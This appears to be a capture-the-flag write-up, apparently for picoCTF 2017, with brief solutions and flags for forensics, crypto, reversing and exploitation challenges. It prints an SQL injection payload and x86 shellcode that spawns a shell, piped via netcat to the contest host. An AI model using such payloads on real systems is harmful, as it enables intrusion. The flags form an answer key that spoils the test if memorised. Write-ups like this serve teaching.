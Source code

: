 # Forensics

## Meta Find Me
Use som program to find meta data about the image and look for comments and GPS coordinates.

The flag is

`flag_2_meta_4_me_40_124_affa`

---

# Cryptography

## SoRandom
Just reverse the algorithm.

The flag is
`FLAG:3b1fa718577cd90efb2fdf5832b6a849`

---

## LeakedHashes
Take one of the hashes, do some Google fu, find the pre-image (no, hashes can *not* be decrypted or decoded...)

The flag is

`18e27fcac2c4b21329e0b118898794c0`

---

## Weird RSA
Using the Chinese Remainder theorem, we can compute the private key and decrypt the message. Then we convert the number into the corresponding ascii values.

The flag is

`Theres_more_than_one_way_to_RSA`

---

# Reverse Engineering

## A Thing Called the Stack
The return address lies right above the saved stack frame (ebp). Then, we have 4 push instructions that pushes 4 bytes each. Next we have the sub instruction that moves the stack pointer 0xf8 bytes further. In total, the distance between the esp and the return address is 264.

The flag is

`0x108`

---

## Programmers Assemble
To get out of the loop, eax must be zero. each round, ebx is incremented by 5 (the value of ecx). In the _fin_ function, we need ebx to be 0x8f2f. Thus, we must have run the loop for a fifth, i.e. 7331 number of times. We must load eax with this value, in hex.

The flag is

`0x1ca3`

---

# Web Exploitation

## My First SQL
Just a simple SQL injection a la

`' OR '1'='1`

The flag is

`be_careful_what_you_let_people_ask_1b3db77df6b116a38db8ceb7c81cb14c`

---

# Binary Exploitation

## Shellz
Find shellcode to run /bin/sh and inject. To keep netcat open, add a `cat -`.

`(python2 -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'; cat -) | nc shell2017.picoctf.com 12562`

Then, run `cat flag.txt`

The flag is

`f6f01bf0649b5aa5ec299bb51c8f8db4`
